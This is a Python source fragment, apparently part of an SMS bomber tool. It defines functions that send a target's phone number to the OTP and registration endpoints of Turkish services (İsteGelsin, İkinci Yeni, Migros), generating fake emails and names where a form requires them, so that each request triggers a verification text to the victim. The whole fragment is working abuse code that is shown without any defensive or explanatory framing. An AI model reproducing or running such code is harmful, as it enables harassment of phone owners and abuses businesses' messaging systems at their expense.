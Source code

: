 def istegelsin(number):
    try:
        url = "https://prod.fasapi.net/"
        payload = {
            "query" : "\n        mutation SendOtp2($phoneNumber: String!) {\n          sendOtp2(phoneNumber: $phoneNumber) {\n            alreadySent\n            remainingTime\n          }\n        }",
            "variables" : {
                "phoneNumber" : f"90{number}"
            }
        }
        r = requests.post(url=url, json=payload, timeout=5)
        if r.status_code == 200:
            return True, "İsteGelsin"
        else:
            return False, "İsteGelsin"
    except:
        return False, "İsteGelsin"

def ikinciyeni(number):
    try:
        url = "https://apigw.ikinciyeni.com/RegisterRequest"
        payload = {
            "accountType": 1,
            "email": f"{''.join(random.choices(string.ascii_lowercase + string.digits, k=12))}@gmail.com",
            "isAddPermission": False,
            "name": f"{''.join(random.choices(string.ascii_lowercase + string.ascii_uppercase, k=8))}",
            "lastName": f"{''.join(random.choices(string.ascii_lowercase + string.ascii_uppercase, k=8))}",
            "phone": f"{number}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["isSucceed"]

        if r1 == True:
            return True, "İkinci Yeni"
        else:
            return False, "İkinci Yeni"
    except:
        return False, "İkinci Yeni"

def migros(number):
    try:
        url = "https://www.migros.com.tr/rest/users/login/otp"
        payload = {
            "phoneNumber": f"{number}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["successful"]

        if r1 == True:
            return True, "Migros"
        else:
            return False, "Migros"
    except:
        return False, "Migros"
